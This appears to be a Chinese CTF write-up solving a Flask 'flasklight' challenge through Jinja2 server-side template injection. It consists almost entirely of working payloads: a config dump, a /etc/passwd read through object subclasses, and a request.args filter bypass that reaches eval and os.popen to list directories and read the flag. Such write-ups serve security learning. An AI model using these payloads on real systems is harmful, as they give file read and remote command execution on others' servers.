 存在`SSTI`

```
?search={{config}}

<Config {'JSON_AS_ASCII': True, 'USE_X_SENDFILE': False, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_NAME': 'session', 'MAX_COOKIE_SIZE': 4093, 'SESSION_COOKIE_SAMESITE': None, 'PROPAGATE_EXCEPTIONS': None, 'ENV': 'production', 'DEBUG': False, 'SECRET_KEY': 'CCC{f4k3_Fl49_:v} CCC{the_flag_is_this_dir}', 'EXPLAIN_TEMPLATE_LOADING': False, 'MAX_CONTENT_LENGTH': None, 'APPLICATION_ROOT': '/', 'SERVER_NAME': None, 'PREFERRED_URL_SCHEME': 'http', 'JSONIFY_PRETTYPRINT_REGULAR': False, 'TESTING': False, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'TEMPLATES_AUTO_RELOAD': None, 'TRAP_BAD_REQUEST_ERRORS': None, 'JSON_SORT_KEYS': True, 'JSONIFY_MIMETYPE': 'application/json', 'SESSION_COOKIE_HTTPONLY': True, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'TRAP_HTTP_EXCEPTIONS': False}>

SECRET_KEY: CCC{f4k3_Fl49_:v} CCC{the_flag_is_this_dir}
这个没什么用
```

读文件:

```
search={{[].__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()}}
疑似用户:www-data
```

下面尝试命令执行的时候发现过滤了很多关键词

查找基类和子类都没有问题

```
{{[].__class__.__bases__[0]}}
输出:<type 'object'>
{{[].__class__.__bases__[0].__subclasses__()}}
输出子类列表
{{[].__class__.__bases__[0].__subclasses__()[59]}}
输出<class 'warnings.catch_warnings'>
```

具体执行命令时会爆500

```
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")
500
```

两种绕过方法:

1.通过`request.args.x`使用其他参数来传关键词

```
?search={{[].__class__.__bases__[0].__subclasses__()[59][request.args.a][request.args.b][request.args.c][request.args.d](request.args.e)}}&a=__init__&b=__globals__&c=__builtins__&d=eval&e=__import__('os').popen('ls').read()

bin boot dev etc flasklight home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var

/flasklight : app.py coomme_geeeett_youur_flek

?search={{[].__class__.__bases__[0].__subclasses__()[59][request.args.a][request.args.b][request.args.c][request.args.d](request.args.e)}}&a=__init__&b=__globals__&c=__builtins__&d=eval&e=__import__('os').popen('cat /flasklight/coomme_geeeett_youur_flek').read()
flag{add0f032-3cdb-40b9-aa25-cd53d5c146fd}
```
